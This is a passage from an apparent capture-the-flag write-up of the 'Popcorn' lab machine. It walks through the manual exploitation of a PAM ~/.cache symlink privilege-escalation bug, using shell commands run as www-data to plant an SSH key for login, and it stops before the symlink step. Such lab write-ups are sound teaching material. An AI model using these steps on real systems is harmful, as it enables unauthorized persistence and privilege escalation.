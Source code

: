 ### Manual Exploit

#### Background

The script above is actually very well done and quite slick. I’ll show that at
the end. But I wanted to understand the vulnerability. There isn’t a ton of
detailed explanation on the web, but from reading the exploit script, the
vulnerability is in how the `~/.cache` directory permissions are set when a
user logs in (invokes the PAM module). My reverse shell didn’t trigger that
because it isn’t a login. But I can use SSH to login by writing a key. Then,
what the exploits do is remove the `~/.cache` directory, and replace it with a
symbolic link to a file. Then, on logging in, that file will be owned by my
user.

#### SSH as www-data

I can’t delete the `~/.cache` directory in george’s home directory because the
`motd.legal-displayed` file is owned by george and not writable:

    
    
    www-data@popcorn:/home/george$ rm -rf .cache/
    rm: cannot remove `.cache/motd.legal-displayed': Permission denied
    www-data@popcorn:/home/george$ ls -l .cache/motd.legal-displayed 
    -rw-r--r-- 1 george george 0 Mar 17  2017 .cache/motd.legal-displayed
    

I can do this in the `www-data` directory. I’ll just need a way to log in.
I’ll create a `.ssh` directory in www-data’s home directory, and generate an
RSA key pair:

    
    
    www-data@popcorn:/home/george$ cd ~
    www-data@popcorn:/var/www$ mkdir .ssh
    www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'pam'
    Enter file in which to save the key (/var/www/.ssh/id_rsa): 
    www-data@popcorn:/var/www$ ls .ssh/
    id_rsa  id_rsa.pub
    

I’ll copy the public key into `authorized_keys` and set the permissions:

    
    
    www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
    www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 
    

Now there isn’t a `.cache` in `/var/www`:

    
    
    www-data@popcorn:/var/www$ ls -la                                                    
    total 28                                                                             
    drwxr-xr-x  4 www-data www-data 4096 Jun 21 21:39 .               
    drwxr-xr-x 15 root     root     4096 Mar 17  2017 ..                                 
    -rw-------  1 www-data www-data   44 Jun 21 21:39 .bash_history                      
    -rw-r--r--  1 www-data www-data  177 Mar 17  2017 index.html    
    drwxr-xr-x  2 www-data www-data 4096 Mar 17  2017 rename  
    -rw-r--r--  1 www-data www-data   21 Mar 17  2017 test.php 
    drwxr-xr-x 15 www-data www-data 4096 Mar 17  2017 torrent 
    